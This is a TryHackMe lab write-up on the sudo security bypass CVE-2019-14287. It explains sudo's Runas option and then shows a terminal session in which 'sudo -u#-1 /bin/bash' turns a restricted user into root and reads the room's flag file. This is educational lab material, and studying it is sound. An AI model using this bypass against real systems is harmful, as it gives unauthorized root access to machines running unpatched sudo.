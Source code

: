 # TryHackMe: Sudo Security Bypass CVE-2019-14287 

# Background: 
	
Runas specification: Runas refers to RUN AS a user. So Runas specification means it can be run as a specific user.

Sudo: Sudo (su “do”) allows a system administrator to delegate authority to give certain users (or groups of users) the ability to run some (or all) commands as root or another user while providing an audit trail of the commands and their arguments. -u option is used to set a user’s privilege level. For example, if you wanna run whoami command with uid=1234, then you can do like this; $ sudo -u#1234 whoami


# PoC
```
tryhackme@sudo-privesc:~$ sudo -l
Matching Defaults entries for tryhackme on sudo-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash
tryhackme@sudo-privesc:~$ sudo whoami
[sudo] password for tryhackme: 
Sorry, user tryhackme is not allowed to execute '/usr/bin/whoami' as root on sudo-privesc.
tryhackme@sudo-privesc:~$ sudo -u#-1 whoami
[sudo] password for tryhackme: 
Sorry, user tryhackme is not allowed to execute '/usr/bin/whoami' as #-1 on sudo-privesc.
tryhackme@sudo-privesc:~$ sudo -u#-1 /bin/bash
root@sudo-privesc:~# whoami
root
root@sudo-privesc:~# ls
root@sudo-privesc:~# cat /root/root.txt
THM{l33t_s3cur1ty_bypass}
root@sudo-privesc:~# 
```
